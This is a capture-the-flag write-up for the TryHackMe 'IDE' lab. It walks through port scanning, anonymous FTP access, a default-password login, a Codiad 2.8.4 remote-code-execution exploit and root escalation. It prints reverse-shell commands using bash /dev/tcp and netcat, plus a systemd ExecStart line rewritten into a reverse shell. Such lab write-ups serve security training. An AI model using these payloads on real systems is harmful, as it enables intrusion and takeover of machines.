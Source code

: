 # IDE
This writeup is intended for IDE room in [TryHackMe](https://tryhackme.com).

Table of Contents
=================
* [URL](#URL)
* [Introduction](#Introduction)
	* [Port scan](#Port-scan)
	* [Further port scan](#Further-port-scan)
* [FTP login](#FTP-login)
* [HTTP login](#HTTP-login)
* [Exploiting HTTP server](#Exploiting-HTTP-server)
* [Privillege Escalation](#Privillege-Escalation)
	* [Home Directory](#Home-Directory)
	* [SSH Login](#SSH-Login)
	* [FTP Exploitation](#FTP-Exploitation)

# URL

URL to the IDE room is: https://tryhackme.com/room/ide\
Clickable URL to the room is provided [here](https://tryhackme.com/room/ide)

# Introduction

IDE is an easy difficulty box intended for further developing enumeration skills.
The task is to gain shell access on the box and escalate privilleges.

## Port scan
I started this room with simple port scan using `nmap`. The command I have used was `sudo nmap -vv -sS -oN -p- initial_scan.txt IP`. Explanation of the used flags is presented below:

```
sudo - gives nmap root privilleges.
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-sS - SYN (stealth) scan. Checks the status of ports by initiating TCP connections but never completing them.
-p- - specify ports to be scanned. Hyphen (-) indicates to scan all 65535 ports.
-oN - normal output is redirected to a given filename (in this case - initial_scan.txt).
IP - IP address of the target machine.
```

Finished scan found ***4*** open TCP ports. These ports are: ***21***, ***22***, ***80*** and ***62337***.

## Further port scan

Now let's do a more throughout scan of these ports with the command `nmap -vv -A -p 21,22,80,62337 -oN open_ports.txt IP`. Expanation for this command is presented below:

```
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-A - aggresive scan options. Enables OS edection (-O), version scanning (-sV), script scanning (-sC) and traceroute (--traceroute) flags.
-p - specify ports to scan.
-oN - normal output is redirected to a given filename (in this case - open_ports.txt).
IP - IP address of the target machine.
```

This scan gave more information about the ports open and services running on top of them. Let's take a look at the newly found information:
1. Port `21` is running FTP service and it's version `vsftpd 3.0.3`.
	a. ftp-anon script scan results indicates that Anonymous FTP login is allowed.
2. Port `22` is running SSH service.
3. Port `80` is running Apache HTTP service.
4. Port `62337` is running another HTTP service.
	a. http-title of this server is Codiad 2.8.4. This specific version of Codiad has a vulnerability which allows Remote Code Execution (RCE) attacks and is a possible attack vector for privillege escalation on this system.

# FTP login

Next I will try anonymous login to the FTP service. The command for connecting to the FTP server is `ftp IP`, where `IP` is IP address of the target machine. When prompted for Username, type `anonymous` and leave the Password field empty.
When I had logged in to the FTP server, strangely I found no files in here. So I have used the `ls -lah` command for more information and found ***three*** directories here:
1. `.` and `..` are standard directories on UNIX-like operating systems.
2. `...` is ***not*** a standard directory.
I went to this directory with `cd` command and found a `-` file, which I have downloaded to host machine with FTP's `GET` command.
Then I have changed the name of the file from `-` to a `file` and gave it a `.txt` extension.
After that I have opened the file with a text editor and found a message in here:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

This gives us a couple of usernames - `john` and `drac`. Also, it says that the password for user `john` has been reset and is set to default. Likely, this is the user of the webserver at port `62337`. Well, if the user has default password, it should not be hard to guess it... :)

# HTTP login

So I have logged into the server via `Firefox` browser with the username `john` and password `password` and it opens an web-based ***Codiad 2.8.4*** administration panel with some python scripts. Based on the scripts, this server is used for controlling IP cameras and is the one we need to gain shell access to.

# Exploiting HTTP server

The specific Codiad version used in this box has a well described remote shell upload vulnerability, for which the code can be found [on the exploit-db site here](https://www.exploit-db.com/exploits/49705).
	So, I have downloaded this exploit to the attackbox and named it `codiad_exploit.py`. Following parameters needs to be specified for the script to run successfully:
1. ***URL*** of the target webserver. It consists of ***IP address*** and the ***Port number*** of the target webserver.
2. ***Username*** of the webserver's user.
3. ***Password*** of the same user.
4. ***IP address*** of the attacking machine.
5. ***Port*** that is used to listen to the reverse shell.
6. ***Platform*** that is running on the server (Windows or Linux).
7. When I opened Codiad administration panel within Firefox I found out that the files within the server are located in `/var/www/html` directory, so it can be conducted that this webserver is hosting Linux.

For succesfully running this exploit, ***3 terminal instances*** need to be used:
1. In ***the first terminal***, the command for server exploitation is constructed - `python3 codiad_exploit.py http://<target-ip>:<target-port> john [REDACTED] <attacker-ip> <listening-port> linux`.
2. From the exploit a reverse shell command is given to execute on a ***second terminal***. Command for this is: `echo 'bash -c "bash -i > /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1 2>&1"' | nc -lnvp <listening-port>`.
3. On the ***third terminal*** a ***netcat listener*** is set up. Command for this is `nc -lnvp <listening-port>+1`.

After the payload is sent, on the terminal with netcat listener there is an access to the target's shell - `www-data@ide`.

# Privillege Escalation

## Home Directory

Now it is necessary to navigate to the webserver's ***home*** directory. There is the folder for user `drac`. Within this directory there is the `user.txt` file. Although permission to view this file is denied at this stage. Luckily, `.bash_history` file is readable and contains the `mysql` user `drac` and this user's password.

## SSH Login

Although previously found credentials were intended for mysql, I have tried to SSH into the webserver with them and I succeeded to do that. Now I am inside a directory, where I ***have*** permissions to read `user.txt` file. Now it is possible to read this flag - a task that I will leave to the reader :)

## FTP Exploitation

By further analyzing the compromised system I was able to find out that the user `drac` is able to run `sudo` command. On `ide` server it can run `/usr/sbin/service vsftpd restart` command.
By using `locate` command I will search for `vsftpd.service` file.
The command gives back a bunch of `vsftpd.service` files but the most interesting one is located at `/lib/systemd/system/vsftpd.service` - this one can be written to by the user `drac`. It is possible to add a ***reverse shell payload*** to this file, so that when the FTP service is restarted, the server automatically connects to the listener that was set up earlier and gives root access to it.
When this file is opened, `ExecStart=` command needs to be changed to the reverse shell payload:

`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1'`

Save the file and restart FTP service with `sudo /usr/sbin/service vsftpd restart`. It gives a warning to reload units with `systemctl daemon-reload`. Reload the units and restart the FTP service again. Volia, the netcat listener should have access to the root shell of the webserver!
Now navigate to the `root` folder and grab the flag from the `root.txt`file :)
